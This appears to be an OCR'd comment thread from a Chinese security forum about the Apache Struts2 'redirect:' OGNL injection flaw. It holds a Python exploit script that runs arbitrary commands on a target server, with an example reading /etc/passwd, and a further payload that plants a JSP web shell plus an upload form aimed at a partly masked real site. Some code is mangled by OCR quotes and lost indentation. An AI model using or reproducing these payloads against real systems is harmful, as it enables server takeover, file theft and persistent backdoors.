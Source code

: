 执行任意命令：
example:python test.py [http://baidu.com/test.action](http://baidu.com/test.action) cat /etc/passwd

import urllib2,sys,re

def get(url, data):
string = url + “?” + data
req = urllib2.Request(“%s”%string)
response = urllib2.urlopen(req).read().strip()
print strip(response)

def strip(str):
tmp = str.strip()
blank_line=re.compile(‘\x00′)
tmp=blank_line.sub(”,tmp)
return tmp

if __name__ == ‘__main__’:
url = sys.argv[1]
cmd = sys.argv[2]
cmd1 = sys.argv[3]
attack=”redirect:${%%23a%%3d(new%%20java.lang.ProcessBuilder(new%%20java.lang.String[]{‘%s’,'%s’})).start(),%%23b%%3d%%23a.getInputStream(),%%23c%%3dnew%%20java.io.InputStreamReader(%%23b),%%23d%%3dnew%%20java.io.BufferedReader(%%23c),%%23e%%3dnew%%20char[50000],%%23d.read(%%23e),%%23matt%%3d%%23context.get(‘com.opensymphony.xwork2.dispatcher.HttpServletResponse’),%%23matt.getWriter().println(%%23e),%%23matt.getWriter().flush(),%%23matt.getWriter().close()}”%(cmd,cmd1)
get(url,attack)
[亮了]()(2)
[回复](http://www.freebuf.com/vuls/?replytocom=13033#respond)

* ![]() Hell0w0rld []() 2013-07-17

@h4ck0r IndentationError: expected an indented block
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13035#respond)
* ![]() coffee []() 2013-07-17    27楼

我来个写shell的吧,当前目录生成test.jsp
?redirect:${
%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
%23p%3d(%23req.getRealPath(%22/%22)%2b%22test.jsp%22).replaceAll("\\\\", "/"),
new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()
}&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

然后用以下代码写shell:
<form action="[http://www.***.jp/acdap/test.jsp?f=1.jsp&quot](http://www.***.jp/acdap/test.jsp?f=1.jsp"); method="post">
<textarea >code</textarea>
<input type=submit value="提交">
</form>
上前目录生成1.jsp
